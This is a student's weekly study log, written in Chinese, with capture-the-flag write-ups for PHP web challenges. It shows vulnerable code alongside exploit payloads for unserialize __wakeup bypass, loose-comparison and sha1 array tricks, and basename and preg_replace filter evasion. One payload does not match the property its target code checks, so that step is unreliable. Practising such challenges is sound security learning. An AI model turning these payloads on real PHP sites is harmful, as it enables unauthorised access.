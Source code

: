 # 11.12~11.24 WEEK6

## 概况

学习paython，1~10章

刷了几道nss的反序列化和其他题目

## 学习到的新知

### 1.ez_ez_unserialize

```php
<?php
class X
{
  public $x = __FILE__;
  function __construct($x)
  {
​    $this->x = $x;
  }
  function __wakeup()
  {
​    if ($this->x !== __FILE__) {
​      $this->x = __FILE__;
​    }
  }
  function __destruct()
  {
​    highlight_file($this->x);
​    //flag is in fllllllag.php
  }
}
if (isset($_REQUEST['x'])) {
  @unserialize($_REQUEST['x']);
} else {
  highlight_file(__FILE__);
}
```

审计代码，要用highlight_file来get flag。

又因为存在wakeup方法，该方法会将x重置，所以要绕过wakeup

<!--如果成员属性数量大于实际数量，即可跳过wakeup魔术方法-->

```php
exp：
<?php
class X
{
  public $x ='fllllllag.php';
}
$a=new X;
echo serialize($a);
?>
```

Payload：

?x=O:1:"X":1:{s:1:"x";s:13:"fllllllag.php";}

将属性数量改大，最终payload：

O:1:"X":2:{s:1:"x";s:13:"fllllllag.php";}

### 2.chekin

```php
<?php
show_source(__FILE__);
$username  = "this_is_secret";
$password  = "this_is_not_known_to_you";
include("flag.php");//here I changed those two 
$info = isset($_GET['info'])? $_GET['info']: "" ;
$data_unserialize = unserialize($info);
if ($data_unserialize['username']==$username&&$data_unserialize['password']==$password){
  echo $flag;
}else{
  echo "username or password error!";
}
?>
```

审计代码，发现info反序列化后数组中的username要弱等于"this_is_secret",数组中的password弱等于"this_is_not_known_to_you"

布尔型True与非零非空NULL比较的结果都为true

```php
exp：
$a=["username"=>true,"password"=>true];
echo urlencode(serialize($a));
```

Payloaad:

?info=a%3A2%3A%7Bs%3A8%3A%22username%22%3Bb%3A1%3Bs%3A8%3A%22password%22%3Bb%3A1%3B%7D

### 3.websign

右键和f12都失效，在url前加view-source:即可查看源码

### 4.easyP

```PHP
?php 
include 'utils.php'; 

if (isset($_POST['guess'])) { 
  $guess = (string) $_POST['guess']; 
  if ($guess === $secret) { 
​    $message = 'Congratulations! The flag is: ' . $flag; 
  } else {
​    $message = 'Wrong. Try Again'; 
  }
} 

if (preg_match('/utils\.php\/*$/i', $_SERVER['PHP_SELF'])) { 
  exit("hacker :)");
} 

if (preg_match('/show_source/', $_SERVER['REQUEST_URI'])){ 
  exit("hacker :)");
} 

if (isset($_GET['show_source'])) { 
  highlight_file(basename($_SERVER['PHP_SELF'])); 
  exit();
}else{
  show_source(__FILE__); 
} 
?> 
```

审计代码：

secret不知道是什么，那就读一下开头提到的utils.php

绕过第二个if，PHP_SELF会返回正在执行的脚本名，且$_SERVER['PHP_SELF']的值会进入basename函数。basename函数会从一个路径字符串中提取文件名部分（不包括目录路径），并返回提取的文件名，但当传入的参数中出现非ascii字符时，则会将其丢弃。所以在url后加一个汉字即可绕过

第三个if，过滤了show_source,且REQUEST_URI会返回要访问的页面（包含get传入的参数）

最终payload：/index.php/utils.php/啊?show+source=1

<!--这里的index.php是为了让basename处理过后的参数为untils.php-->

参考文章：[$_SERVER参数用法总结（php手册）-CSDN博客](https://blog.csdn.net/qq_41617034/article/details/104495532)

### 5.Middle magic

 

```php
<?php 
highlight_file(__FILE__); 
include "./flag.php"; 
include "./result.php"; 
if(isset($_GET['aaa']) && strlen($_GET['aaa']) < 20){ 
  $aaa = preg_replace('/^(.*)level(.*)$/', '${1}<!-- filtered -->${2}', $_GET['aaa']); 

  if(preg_match('/pass_the_level_1#/', $aaa)){ 
​    echo "here is level 2"; 

​    if (isset($_POST['admin']) and isset($_POST['root_pwd'])) { 
​      if ($_POST['admin'] == $_POST['root_pwd']) 
​        echo '<p>The level 2 can not pass!</p>'; 
​    // START FORM PROCESSING  
​      else if (sha1($_POST['admin']) === sha1($_POST['root_pwd'])){ 
​        echo "here is level 3,do you kown how to overcome it?"; 
​        if (isset($_POST['level_3'])) { 
​          $level_3 = json_decode($_POST['level_3']); 

​          if ($level_3->result == $result) { 
​            echo "success:".$flag; 
​          }
​          else {
​            echo "you never beat me!"; 
​          }
​        }
​        else{
​          echo "out"; 
​        }
​      }
​      else{
​        
​        die("no"); 
​      }
​    // perform validations on the form data
​    } 
​    else{
​      echo '<p>out!</p>';
​    }
  }
  else{
​    echo 'nonono!'; 
  }
  echo '<hr>'; 
} 
?> 
```

审计代码：

aaa参数必须满足pass_the_level_1#的正则匹配，且存在preg_replace在level两侧加上了注释filtered，过滤掉了level。

因为preg_replace的特性，第二行不会被执行，所以可以在传参前加一个%0A(line feed换行符），又因为传参的结尾有一个# ，井字符不会被传参，所以应该替换为%23

<!--\#代表网页中的一个位置,其右面的字符，就是该位置的标识符-->

<!--#对服务器完全无用，http中不包括#-->

所以payload:?aaa=%0Apass_the_level_1%23

admin和root_pwd不能弱相等，但两者的sha1值强相等。

payload：admin[]=1&root_pwd[]=2

第三层会对传入的level_3进行json解码，当result属性的值和result参数的比较结果为真时，返回flag

根据php特性，当数字和字母进行弱比较的时候，结果为真

payload：level_3={"level":1}

## 下周目标

1.刷ctfshow的题

2.等可以打开新生赛网站以后复现最后一道web题

3.练习python

 

 

